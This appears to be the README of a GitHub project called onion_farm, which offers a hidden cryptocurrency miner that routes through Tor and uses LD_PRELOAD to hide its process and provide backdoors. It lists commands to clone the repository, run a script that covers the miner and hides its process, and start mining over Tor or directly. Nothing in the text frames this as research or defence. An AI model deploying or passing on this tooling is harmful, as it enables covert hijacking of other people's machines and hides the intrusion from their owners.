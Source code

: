 # onion_farm
Hidden miner via tor and under ld.preload for backdoors

```
git clone https://github.com/0x-raafet/onion_farm.git ; cd onion_farm/ ; chmod +x *
```
cover the miner and hide process
```
./hidsetup.sh
```
tor miner
```
./tormd.sh [numOFcpus]
```
normal miner
```
./mine.sh [numOFcpus]
```

